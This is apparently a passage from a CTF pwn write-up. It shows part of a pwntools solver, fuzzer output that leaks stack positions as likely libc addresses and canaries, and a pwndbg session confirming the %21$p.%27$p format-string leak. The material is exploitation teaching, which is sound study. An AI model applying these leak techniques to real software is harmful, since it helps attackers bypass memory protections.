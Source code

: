 ```python
    r.sendline('a')
    r.close()
```

Running the fuzzer we can see:

```console
Running solver locally..

[1] Possible LIBC: 0x7ffc57c30650
[2] Possible LIBC: 0x7faa30fc78c0
[6] Possible LIBC: 0x7ffe44738a70
[21] Possible CANARY: 0xd06a8ad3a5667400
[22] Possible LIBC: 0x7fffde33fe30
[24] Possible LIBC: 0x7ffca77c4340
[25] Possible CANARY: 0xc3935f89ebe50700
[27] Possible LIBC: 0x7fe0d581bc87
[29] Possible LIBC: 0x7fff504e1c08
[35] Possible LIBC: 0x7ffdeaa08880
[40] Possible LIBC: 0x7fff00000000
[43] Possible LIBC: 0x7fdbf21458d3
[44] Possible LIBC: 0x7fa3b8599638
```

The address at `$21` seems like a possible `canary` value and the address at `$27` like a `libc`. We can verify this in the debugger.

### Debugging 

Running the program in the debugger and giving the `%21$p.%27$p` input as name, we can see if our assumptions were correct. 

```gdb
pwndbg> 
0xce6ad7f539fffa00.0x7ffff7a03c87
0x000055555555545f in fb ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────
*RAX  0x22
 RBX  0x0
 RCX  0x0
 RDX  0x7ffff7dcf8c0 ◂— 0x0
*RDI  0x1
 RSI  0x7fffffffb8f0 ◂— 0x3764613665637830 ('0xce6ad7')
*R8   0x22
*R9   0x7fffffffb76c ◂— 0x2200007fff
*R10  0x0
 R11  0x246
 R12  0x555555554a20 (_start) ◂— xor ebp, ebp
 R13  0x7fffffffe110 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fffffffe010 —▸ 0x7fffffffe030 —▸ 0x555555555570 (__libc_csu_init) ◂— push r15
 RSP  0x7fffffffdf90 —▸ 0x7fffffffe110 ◂— 0x1
*RIP  0x55555555545f (fb+245) ◂— lea rdi, [rip + 0x62a]
─────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────
   0x555555555449 <fb+223>    call   printf@plt                <printf@plt>
 
   0x55555555544e <fb+228>    lea    rax, [rbp - 0x70]
   0x555555555452 <fb+232>    mov    rdi, rax
   0x555555555455 <fb+235>    mov    eax, 0
   0x55555555545a <fb+240>    call   printf@plt                <printf@plt>
 
 ► 0x55555555545f <fb+245>    lea    rdi, [rip + 0x62a]
   0x555555555466 <fb+252>    mov    eax, 0
   0x55555555546b <fb+257>    call   printf@plt                <printf@plt>
```